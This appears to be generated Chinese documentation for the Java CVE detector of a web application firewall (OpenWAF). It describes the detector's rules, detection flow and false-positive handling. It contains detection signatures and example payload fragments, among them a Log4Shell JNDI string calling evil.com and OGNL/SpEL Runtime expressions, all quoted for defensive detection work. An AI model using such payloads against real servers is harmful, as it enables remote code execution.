





> [返回 安全防护功能](../../安全防护功能.md)

# Java 检测器

<cite>
**本文引用的文件**
- [java.go](file://internal/waf/cve/java.go)
- [detector.go](file://internal/waf/cve/detector.go)
- [general.go](file://internal/waf/cve/general.go)
- [node.go](file://internal/waf/cve/node.go)
- [php.go](file://internal/waf/cve/php.go)
- [feed.go](file://internal/waf/cve/feed.go)
- [cve.go](file://internal/store/cve.go)
- [detector_test.go](file://internal/waf/cve/detector_test.go)
</cite>

## 目录
1. [简介](#简介)
2. [项目结构](#项目结构)
3. [核心组件](#核心组件)
4. [架构总览](#架构总览)
5. [详细组件分析](#详细组件分析)
6. [依赖分析](#依赖分析)
7. [性能考虑](#性能考虑)
8. [故障排查指南](#故障排查指南)
9. [结论](#结论)
10. [附录](#附录)

## 简介
本文件面向 Java CVE 检测器，系统性阐述其在 OpenWAF 中的实现原理、检测逻辑与工程实践。重点覆盖以下方面：
- Java 反序列化漏洞检测：Log4Shell、Fastjson、Jackson、Shiro、Apache Tomcat Session、Apache ActiveMQ、Apache OFBiz、Confluence 等
- Spring 生态漏洞检测：Spring4Shell、Spring Cloud Function SpEL
- 特征提取方法、类加载器检测技术与检测精度控制
- 如何识别 Java 生态的典型攻击模式：反序列化链、JNDI 注入、模板注入（OGNL/SpEL）、远程调用协议等
- 检测器配置选项、性能参数与调试方法
- 典型检测案例与误报处理策略

## 项目结构
Java 检测器位于 CVE 检测子系统中，采用“多语言子检测器 + 通用检测器 + 注册表规则”的分层架构：
- JavaCVEDetector：负责 Java 生态漏洞的专用规则匹配
- CVEDetector：协调 PHP、Java、Node.js、General 四类子检测器，并统一执行自定义规则与注册表规则
- CVERequest：标准化请求输入，支持多解码与目标聚合
- CVEFeedManager：从外部源（NVD、GitHub Advisory）自动同步规则并热更新

**图表来源**
- [detector.go:14-167](file://internal/waf/cve/detector.go#L14-L167)
- [java.go:72-197](file://internal/waf/cve/java.go#L72-L197)
- [feed.go:16-81](file://internal/waf/cve/feed.go#L16-L81)
- [cve.go:9-29](file://internal/store/cve.go#L9-L29)

**章节来源**
- [detector.go:14-167](file://internal/waf/cve/detector.go#L14-L167)
- [java.go:72-197](file://internal/waf/cve/java.go#L72-L197)
- [feed.go:16-81](file://internal/waf/cve/feed.go#L16-L81)
- [cve.go:9-29](file://internal/store/cve.go#L9-L29)

## 核心组件
- JavaCVEDetector
  - 维护一组针对 Java 生态的规则集，每条规则包含：CVE 编号、严重等级、描述、目标域（url/body/header/cookie/all）与多个正则模式
  - Detect 方法按规则遍历目标字符串，命中即记录匹配项并短路跳过该规则后续模式
- CVERequest
  - 将原始请求标准化为多组目标字符串，包括未解码与二次 URL 解码后的路径、查询、头值、体、内容类型等
  - 提供 AllTargets 与 AllTargetsLower，用于快速预过滤与大小写无关匹配
- CVEDetector
  - 串行执行四类子检测器（General/PHP/Java/Node），并在必要时应用自定义规则与注册表规则
  - 支持类别敏感度开关（如将某类别设为 off 则完全跳过）
- CVERuleRegistry
  - 注册表式规则容器，支持线程安全注册、覆盖（启用/敏感度）与统一检测
- CVEFeedManager
  - 后台同步 NVD/GitHub Advisory，生成通用规则并写入数据库，再热加载至 CVEDetector

**章节来源**
- [java.go:72-227](file://internal/waf/cve/java.go#L72-L227)
- [detector.go:144-297](file://internal/waf/cve/detector.go#L144-L297)
- [feed.go:16-212](file://internal/waf/cve/feed.go#L16-L212)

## 架构总览
Java 检测器的检测流程如下：

**图表来源**
- [java.go:199-226](file://internal/waf/cve/java.go#L199-L226)
- [detector.go:123-137](file://internal/waf/cve/detector.go#L123-L137)

## 详细组件分析

### JavaCVEDetector 类与规则体系
- 规则结构
  - 每条规则包含：cveID、severity、description、patterns（正则切片）、target
  - target 支持 "all"/"url"/"body"/"header"/"cookie"；当 target 为 "all" 时，命中后通过 guessMatchedPart 推断具体部位
- 模式集合（节选）
  - Log4Shell（CVE-2021-44228）：覆盖 jndi:ldap/rmi/dns 等协议、嵌套/变体编码、URL 编码等绕过
  - Spring4Shell（CVE-2022-22965）：classLoader、spring.datasource、OgnlContext 等特征
  - Spring Cloud Function SpEL（CVE-2022-22963）：routing-expression 与 T(Runtime) 表达式
  - Fastjson（CVE-2017-18349）：@type 与常见 gadget 类名组合
  - Struts2 OGNL（CVE-2017-5638）：%{...}、#_memberAccess、multipart/form-data + %{...}
  - Apache Shiro（CVE-2016-4437）：rememberMe Cookie 的 Base64 长度阈值
  - Jackson（CVE-2017-7525）：org.apache.commons、com.sun.org.apache.xalan 等包名
  - Apache OFBiz（CVE-2023-49070/51467）：webtools 控制端点与 requirePasswordChange 参数
  - Apache ActiveMQ（CVE-2023-46604）：ExceptionResponse/ClassPathXmlApplicationContext
  - Confluence（CVE-2022-26134）：URL 路径中的 ${...} 与 #a=@java.lang.Runtime@getRuntime
  - Apache Tomcat Session（CVE-2025-24813）：.session.<id>.ser 路径
- 检测流程
  - resolveTargets 根据 target 选择目标集合
  - 对每个目标字符串逐一匹配规则的所有模式
  - 命中后构造 CVEMatch 并短路该规则的其余模式，避免重复匹配
  - 若 target 为 "all"，通过 guessMatchedPart 推断实际命中部位

**图表来源**
- [java.go:72-197](file://internal/waf/cve/java.go#L72-L197)
- [detector.go:144-157](file://internal/waf/cve/detector.go#L144-L157)

**章节来源**
- [java.go:72-227](file://internal/waf/cve/java.go#L72-L227)
- [detector.go:24-517](file://internal/waf/cve/detector.go#L24-L517)

### 特征提取与类加载器检测技术
- 正则特征提取
  - 使用大小写不敏感、锚定边界、分组捕获等技巧覆盖常见编码与绕过形态
  - 对于复杂模式（如 Log4Shell 的多变体），采用多正则并列匹配
- 目标域选择与多解码
  - CVERequest 提供未解码与二次 URL 解码后的目标，提升对编码绕过的识别能力
  - 对 Cookie、Header、Body、URL 等不同域分别匹配，提高覆盖面
- 类加载器与反射特征
  - Spring4Shell 通过 classLoader、resources、defaultAssertionStatus 等路径特征进行类加载器操控检测
  - Jackson/Fastjson 通过包名与类名组合（如 com.sun.rowset.JdbcRowSetImpl、java.net.URL）识别反序列化链
- 检测精度控制
  - 单规则命中即短路，避免重复匹配与误报放大
  - 对 "all" 目标通过 guessMatchedPart 推断命中部位，便于审计与溯源
  - 通过类别敏感度开关（"none"/"off"）可整体关闭某类检测，降低误报或性能压力

**章节来源**
- [java.go:85-130](file://internal/waf/cve/java.go#L85-L130)
- [detector.go:199-212](file://internal/waf/cve/detector.go#L199-L212)
- [detector.go:498-548](file://internal/waf/cve/detector.go#L498-L548)

### 典型漏洞检测逻辑与绕过对抗
- Log4Shell（CVE-2021-44228）
  - 关键特征：${jndi:ldap://...}、嵌套/变体编码、URL 编码等
  - 绕过对抗：覆盖 lower/upper/env/sys/java 等拼接绕过、双分隔符拆分、十六进制/百分号编码等
- Spring4Shell（CVE-2022-22965）
  - 关键特征：class.module.classLoader、spring.datasource、class.classLoader.resources、class.module.classLoader.defaultAssertionStatus
- Spring Cloud Function SpEL（CVE-2022-22963）
  - 关键特征：spring.cloud.function.routing-expression、T(java.lang.Runtime)
- Fastjson（CVE-2017-18349）
  - 关键特征：@type 与 com.sun.rowset.JdbcRowSetImpl、java.lang.Runtime、java.net.URL/InetAddress、org.apache.xbean、com.mchange.v2.c3p0、javax.naming.InitialContext
- Struts2 OGNL（CVE-2017-5638）
  - 关键特征：%{...}、#_memberAccess、#rt=@java.lang.Runtime、ognl.OgnlContext、multipart/form-data.*%{
- Apache Shiro（CVE-2016-4437）
  - 关键特征：rememberMe Cookie 的 Base64 长度阈值
- Jackson（CVE-2017-7525）
  - 关键特征：["org.apache.commons.、com.sun.org.apache.xalan
- Apache OFBiz（CVE-2023-49070/51467）
  - 关键特征：/webtools/control/(xmlrpc|main|ViewHandlerExt)、/accounting/control/.*requirePasswordChange=Y
- Apache ActiveMQ（CVE-2023-46604）
  - 关键特征：ExceptionResponse.*ClassPathXmlApplicationContext、ClassInfo.*org.springframework
- Confluence（CVE-2022-26134）
  - 关键特征：/\$\{[^}]*\}/?$、#a=@java.lang.Runtime@getRuntime
- Apache Tomcat Session（CVE-2025-24813）
  - 关键特征：\.session\.\d+\.ser

**图表来源**
- [java.go:199-226](file://internal/waf/cve/java.go#L199-L226)
- [detector.go:224-297](file://internal/waf/cve/detector.go#L224-L297)

**章节来源**
- [java.go:85-130](file://internal/waf/cve/java.go#L85-L130)
- [java.go:132-197](file://internal/waf/cve/java.go#L132-L197)

### 与其他语言检测器的协同
- CVEDetector 串行执行四类子检测器，避免 goroutine 启动开销
- GeneralCVEDetector 提供通用 Java 代码注入/OGNL/SpEL、远程调用协议/JDBC、路径穿越、XXE 等检测，作为 Java 漏洞的补充与兜底
- PHP/Node 检测器与 Java 检测器并行运行，互不干扰

**章节来源**
- [detector.go:214-297](file://internal/waf/cve/detector.go#L214-L297)
- [general.go:492-525](file://internal/waf/cve/general.go#L492-L525)
- [php.go:57-222](file://internal/waf/cve/php.go#L57-L222)
- [node.go:59-239](file://internal/waf/cve/node.go#L59-L239)

## 依赖分析
- 内部依赖
  - JavaCVEDetector 依赖 CVERequest 的标准化输入与目标解析
  - CVEDetector 依赖 CVERuleRegistry 与自定义规则（CustomCVERule）
  - CVEFeedManager 依赖数据库模型 CVERuleModel，并将规则热加载到 CVEDetector
- 外部依赖
  - 正则表达式库用于模式匹配
  - HTTP 客户端与 JSON 解析用于从 NVD/GitHub 获取数据

**图表来源**
- [detector.go:14-167](file://internal/waf/cve/detector.go#L14-L167)
- [feed.go:16-81](file://internal/waf/cve/feed.go#L16-L81)
- [cve.go:9-29](file://internal/store/cve.go#L9-L29)

**章节来源**
- [detector.go:14-167](file://internal/waf/cve/detector.go#L14-L167)
- [feed.go:16-81](file://internal/waf/cve/feed.go#L16-L81)
- [cve.go:9-29](file://internal/store/cve.go#L9-L29)

## 性能考虑
- 预过滤 hasCVESuspiciousContent
  - 在进入子检测器前，对 AllTargets 进行轻量级预扫描，快速排除明显干净请求，显著降低正则匹配成本
- 串行执行与短路
  - CVEDetector 串行执行四类子检测器，避免 goroutine 启动/同步开销
  - 单规则命中即短路，减少重复匹配
- 目标域最小化
  - 仅对必要目标域（如 Shiro 的 Cookie、Fastjson 的 Body）进行匹配，缩小搜索空间
- 正则编译与复用
  - Java/C++/Go 等语言侧的正则在 init 阶段一次性编译，运行时直接复用，避免重复编译

**章节来源**
- [detector.go:214-297](file://internal/waf/cve/detector.go#L214-L297)
- [detector.go:299-450](file://internal/waf/cve/detector.go#L299-L450)
- [java.go:132-197](file://internal/waf/cve/java.go#L132-L197)

## 故障排查指南
- 常见问题
  - 误报：某些合法请求包含正则特征（如 rememberMe Cookie、@type 字段），可通过调整规则 target 或增加上下文约束
  - 漏检：绕过形态未覆盖（如新的编码/拼接方式），需扩展正则或引入注册表规则
  - 性能瓶颈：大量 goroutine 或正则过于复杂，建议启用 hasCVESuspiciousContent、串行执行与目标域最小化
- 调试方法
  - 使用 CVERequest 的 AllTargets 与 AllTargetsLower 辅助定位命中字符串
  - 临时将类别敏感度设为 "off" 关闭某类检测，隔离问题范围
  - 通过自定义规则（CustomCVERule）添加临时规则，验证修复效果
- 测试用例参考
  - Log4Shell、PHP 反序列化、SSRF、路径穿越等测试用例可作为回归与误报排查的基准

**章节来源**
- [detector.go:452-496](file://internal/waf/cve/detector.go#L452-L496)
- [detector_test.go:1-311](file://internal/waf/cve/detector_test.go#L1-L311)

## 结论
Java 检测器通过“规则 + 正则 + 目标域最小化 + 预过滤 + 短路”的组合，在保证高覆盖率的同时兼顾性能与可维护性。结合通用检测器与注册表规则，能够有效覆盖 Java 生态的主流漏洞场景，包括反序列化链、JNDI 注入、模板注入与远程调用协议滥用等。建议在生产环境中配合类别敏感度控制与自定义规则，持续优化误报与漏报。

## 附录

### 配置选项与管理
- 类别敏感度
  - 通过 Detect 的可选参数 map[string]string 设置类别为 "none"/"off" 以完全跳过某类检测
- 自定义规则
  - 通过数据库表 cve_rules（CVERuleModel）添加规则，CVEFeedManager 会自动热加载
- 注册表规则覆盖
  - 通过 CVERuleRegistry.ApplyOverrides 支持启用/禁用与敏感度覆盖

**章节来源**
- [detector.go:214-297](file://internal/waf/cve/detector.go#L214-L297)
- [feed.go:16-212](file://internal/waf/cve/feed.go#L16-L212)
- [cve.go:9-29](file://internal/store/cve.go#L9-L29)

### 典型检测案例与误报处理策略
- Log4Shell（CVE-2021-44228）
  - 案例：${jndi:ldap://evil.com/a}、%24%7Bjndi:ldap://...%7D 等
  - 误报处理：若业务确有合法 JNDI 查询，可将该请求加入白名单或调整规则 target
- Spring4Shell（CVE-2022-22965）
  - 案例：classLoader、spring.datasource 等路径
  - 误报处理：仅在可疑路径/参数中匹配，避免误伤正常类加载
- Fastjson（CVE-2017-18349）
  - 案例：@type 与 Runtime/URL/InetAddress 等
  - 误报处理：限制 target 为 Body，或增加上下文白名单
- Struts2 OGNL（CVE-2017-5638）
  - 案例：%{...}、multipart/form-data.*%{
  - 误报处理：结合 Content-Type 与参数命名约定，减少误报
- Apache Shiro（CVE-2016-4437）
  - 案例：rememberMe Cookie 长度阈值
  - 误报处理：仅在 Cookie 域匹配，避免误伤其他字段
- Jackson（CVE-2017-7525）
  - 案例：org.apache.commons、com.sun.org.apache.xalan
  - 误报处理：限制 target 为 Body，或增加包名白名单
- Apache OFBiz（CVE-2023-49070/51467）
  - 案例：webtools 控制端点与 requirePasswordChange 参数
  - 误报处理：仅在 URL 域匹配，避免误伤其他路径
- Apache ActiveMQ（CVE-2023-46604）
  - 案例：ExceptionResponse/ClassPathXmlApplicationContext
  - 误报处理：限制 target 为 Body，或增加上下文白名单
- Confluence（CVE-2022-26134）
  - 案例：URL 路径中的 ${...} 与 #a=@java.lang.Runtime@getRuntime
  - 误报处理：仅在 URL/Body 域匹配，避免误伤正常路径
- Apache Tomcat Session（CVE-2025-24813）
  - 案例：.session.<id>.ser
  - 误报处理：仅在 URL 域匹配，避免误伤其他路径

**章节来源**
- [java.go:85-130](file://internal/waf/cve/java.go#L85-L130)
- [java.go:132-197](file://internal/waf/cve/java.go#L132-L197)
- [detector_test.go:38-69](file://internal/waf/cve/detector_test.go#L38-L69)
